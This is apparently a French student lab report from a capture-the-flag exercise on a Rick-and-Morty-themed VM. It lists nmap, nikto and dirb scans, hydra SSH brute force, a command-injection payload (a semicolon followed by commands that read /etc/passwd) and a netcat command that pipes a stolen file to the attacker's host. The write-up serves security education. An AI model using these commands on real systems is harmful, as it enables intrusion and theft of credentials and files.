

# Rapport du TP1

#### _(Si les addresses ip peuvent varier dans les commandes et les captures d'écran entre 10.0.2.15 et 10.0.2.5, c'est parce que j'ai réalisé le tp sur 2 jours différents et en redémarrant la vm, l'ip n'était plus la même)_

Pour scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

Ca nous ermet de trouver l'ip de la machine cible : 10.0.2.15

on test la connection entre les 2 machines
`ping 10.0.2.15`

on commence par chercher tous les ports ouverts
`nmap -p- 10.0.2.15`

## Port 21

On peut analyser plus en détail le port 21
`nmap -sC -sV -A -p 21 10.0.2.15`

on voit ici qu'il y a un FLAG.txt

on peut se connecter en mode ftp (avec l'identifiant et le mdp 'ftp')
`ftp 10.0.2.15`
et en faisant "ls" on retrouve bien notre FLAG.txt

on peut mintenant rapatrier sur la machine hote le fichier
`get FLAG.txt`

puis sur la machine hote, on peut lire le fichier, on a trouvé un **FLAG_1** :
`cat FLAG.txt`

## Port 22

On peut analyser plus en détail le port 22
`nmap -sC -sV -A -p 22 10.0.2.15`

On voit qu'il y a du ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`

On constate que ça échoue.

## Port 80

`nmap -sC -sV -A -p 80 10.0.2.15`

On voit que c'est du http et que le port 80 correspond au port par défaut du serveur web.

Il s'agit d'un serveur web, on peut se rendre à l'url `10.0.2.15`
On tombe sur une page web avec rien de spécial dessus.

En inspectant le code source de la page je ne vois rien non plus.

On utilise donc l'outil nikto (port 80 par défaut donc pas besoin d'options)
`nikto -h 10.0.2.15`

Avec dirb on peut voir les sous dossiers cachés (port 80 par défaut donc pas besoin d'options)
`dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`

On voit qu'il y a un dossier `/passwords`
Je me rend dans le navigateurs et j'essaie d'accéder à `http://10.0.2.15/passwords` et je trouve un **FLAG_2**

A la meme racine il y a aussi un fichier passwords.html donc je m'y rend `http://10.0.2.15/passwords.html`

En inspectant la page, on trouve un mot de passe qui pourrait servir pour la suite : "winter"

En effectuant la commande `dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`

On observe aussi un fichier `/robots.txt`

`curl 10.0.2.15/robots.txt`

On se rend à l'Url `10.0.2.15/cgi-bin/root_shell.cgi`

Il n'y a pas grand chose à voir ici

On esssaye l'Url `10.0.2.15/cgi-bin/tracertool.cgi`

On tombe sur un outil qui demande d'entrer une Ip

On remarque que l'on peut taper des commandes dans la zone de texte en ajoutant ";" avant
On essaye d'accéder au fichier contenant les information des utilisateurs du système.
`; cat /etc/passwd`

L'interface nous affiche un chat retourné. Avec un peu de réflexion on comprend que c'est le "cat" qui est à l'envers, donc "tac"
`; tac /etc/passwd`

L'interface affiche e nombreuses information, et on remarque le mot clé "Summer" sur la 2e ligne, contraire de "winter" que l'on a repéré avant, ainsi que "Morty" et "RickSanchez", qui font référence à la page web de l'adresse `10.0.2.15`.

On peut se connecter à l'utilisateur Summer en ssh, et avec le mot de passe "winter".
`ssh Summer@10.0.2.5 -p 22222`

En tapant la commande `cat FLAG.txt`, on retrouve la meme image de chat à l'envers. `tac FLAG.txt` nous permet de voir le vrai **FLAG_3**.

En continuant à chercher, je me déplace à la racine du dossier, où il y a 3 utilisateurs (Morty, RickSanchez, Summer)
On peut utiliser la commande find pour avoir une idée de l'arboressance des fichiers.

On trouve un fichier NotAFlage.txt suspect. En l'ouvrant on s'aperçoit que ce n'est vraiment pas un Flag.

On peut aussi voir un fichier image nommé "Safe_Password.jpg". Comme on est connecté en ssh il est compliqué de réaliser des interractions dessus. En cherchant un peu j'ai vu qu'il était possible d'ouvrir une connexion entre la machine hote et la cible avec netcat afin de rapatrier le fichier sur la machine hote.

En tapant la commande suivante sur ma machine hote, j'ouvre un connexion réseau et je dis que je vais appeller le fichier que je vais recevoir "fileMDP.jpg" : `nc -l -p 12345 > fileMDP.jpg`

Depuis ma machine cible, j'envoie le fichier sur l'hote sur le port 12345 `cat Morty/Safe_Password.jpg | nc 10.0.2.4 12345`

L'hote a bien récupérer le fichier.

On utilise la commande `strings fileMDP.jpg` pour déchiffrer toutes les chaines de caractère lisible dans le fichier binaire de l'image. Cette commande renvoie plein de lignes de caractère, dont une qui retient mon attention :

Sur la machine cible en ssh, je peux unzip l'archive /home/Morty/journal.txt.zip à l'aide du mot de passe que j'ai obtenu.
J'ai une erreur "permission denied" car je n'ai pas les droits d'unzip l'archive ici. Je vais donc la copier dans le répertoire tmp.
`cp /Morty/journal.txt.zip /tmp/`
puis dans /tmp je l'unzip
`unzip journal.txt.zip`

en lisant le fichier je trouve un **FLAG_4**

## Port 9090

`nmap -sC -sV -A -p 9090 10.0.2.15`

On voit que c'est encore un serveur web, donc on va utiliser à nouveau nikto et dirb

Je ne trouve rien de spécial avec les commandes. Il s'agit d'un serveur web donc j'essaie de simplement tapper l'url `http://10.0.2.15:9090`

On tombe sur une page web contenant un **FLAG_5**

## Port 13337

`nmap -sC -sV -A -p 13337 10.0.2.15`

On a pas d'info (ssh, ftp, web) donc on peut utiliser netcat pour établir une connexion réseau et essayer de trouver des indices.
`nc 10.0.2.15 13337`

On a trouvé un **FLAG_6**

## Port 22222

`nmap -sC -sV -A -p 22222 10.0.2.15`

On constate que c'est du ssh donc on va faire une attaque brut force en utilisant hydra

`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`

Malheureusement je n'ai rien trouvé avec cette attaque brut force.

## Port 60000

`nmap -sC -sV -A -p 60000 10.0.2.5`

On a pas vraiment d'informations donc on va utiliser netcat pour établir une connexion.

`nc 10.0.2.5 60000`

On trouve bien un fichier **FLAG_7**
